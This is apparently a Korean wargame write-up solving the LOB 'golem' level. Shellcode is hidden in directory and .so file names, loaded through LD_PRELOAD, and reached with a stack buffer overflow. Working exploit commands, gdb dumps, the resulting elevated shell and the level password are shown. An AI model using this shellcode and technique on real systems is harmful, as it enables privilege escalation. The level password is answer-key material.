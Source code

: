 아무것도 없는 so파일을 만들고 이걸 orge 때 처럼 shellcode를 담도록 파일을 이동시켜서 LD_PRELOAD가 쉘코르를 포함하도록 등록하자.

``` bash2
[skeleton@localhost skeleton]$ mkdir `python -c 'print "\x90"*200+"\x31\xc0\x50\x68"'`
[skeleton@localhost skeleton]$ cd `python -c 'print "\x90"*200+"\x31\xc0\x50\x68"'`
[skeleton@localhost ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h]$ mkdir `python -c 'print "\x31\x73\x68\x68"'`
[skeleton@localhost ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h]$ cd 1shh/
[skeleton@localhost 1shh]$ mv ~/attack.so `python -c 'print "\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*200'`.so
[skeleton@localhost 1shh]$ export LD_PRELOAD="/home/skeleton/????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h/1shh/tmp??S??柰^K?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????.so"
```

gdb로 쉘코드의 위치를 찾아보자.

``` bash2
(gdb) x/s 0xbffff350
0xbffff350:	 "/home/skeleton/", '\220' <repeats 23 times>, "s ?"
```

쉘코드의 위치는 대략 0xBFFFF3C3이다.

core가 발생하여 gdb로 분석하면 gdb가 아닌 진짜 주소는 0xbffff2ff 쯤에 있는 것을 알 수 있다.

이렇게 하면 쉘코드가 중간에 깨져서 오류가 난다. 이유는 정확히 모르겠으나 printf 하면서 쉘코드 중간에 이상한 숫자가 끼어들어간다. 이를 해결하기 위해 so 파일이름에서 뒷부분 Nop 크기를 100으로 줄이고 진행했다.

``` bash2
[skeleton@localhost 1shh]$ mv `python -c 'print "\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*200'`.so `python -c 'print "\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*100'`.so
```

``` gdb
0xbffff4e8:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff4f0:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff4f8:	0x90	0x90	0x90	0x31	0xc0	0x50	0x68	0x2f
0xbffff500:	0x31	0x73	0x68	0x68	0x2f	0x74	0x6d	0x70
0xbffff508:	0x89	0xe3	0x50	0x53	0x89	0xe1	0x31	0xd2
0xbffff510:	0xb0	0x0b	0xcd	0x80
```
0xbffff4c0로 뛰도록해보자.

core를 이용해 디버깅을 한 뒤 0xbffff4b0으로 뛰도록 하자.

``` bash2
[skeleton@localhost skeleton]$ /home/skeleton/golem `python -c 'print "A"*44+"\xb0\xf4\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA곯
1sh: /home/skeleton/.bashrc: Permission denied
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
bash$ my-pass
euid = 511
cup of coffee
```
